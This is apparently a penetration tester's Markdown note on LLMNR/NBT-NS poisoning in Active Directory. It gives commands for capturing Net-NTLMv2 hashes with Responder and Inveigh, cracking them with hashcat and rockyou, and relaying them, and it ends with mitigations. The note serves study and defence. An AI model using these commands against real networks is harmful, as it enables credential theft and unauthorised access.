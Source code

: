 ```yaml
---
tags:
  - Initial-Access
  - LLMNR
  - NETBIOS
  - AD
---
```

## From Linux
---

[https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder)
```Python
sudo responder -I eth0 
```
Wait for hashes to come in
Crack them with
```Python
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```
## From Windows
---
### **Using Inveigh**
https://github.com/Kevin-Robertson/Inveigh
```Python
Import-Module .\Inveigh.ps1
```
```Python
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
### **C# Inveigh (InveighZero)**
```Python
.\Inveigh.exe
```
We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`. We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected. This is helpful if we want a listing of users to perform additional enumeration against and see which are worth  
attempting to crack offline using Hashcat.

## Abuse
___
Once you receive a response:

you can either crack the Net-NTLMv2 hash

- See: [Hash Cracking](../3.%20Credential%20Theft/Hash%20Cracking.md)

Or relay the to authenticate to a service

- See: [Relay Attacks](Relay%20Attacks.md)


## Mitigation
---
1. Select "Turn OFF multicast Name Resolution" under Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client in the Group Policy Editor
2. Disable NBT-NS navigate to Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced tab > WINS tab and select "Disable NetBios over TCP/IP". 
**If you cannot disable for whatever reason**
- Require Network Access Control (NAC)
- Require strong passwords: over 14 characters with capitals and symbols and no common words. The better the password, the longer it takes an attacker to crack the hash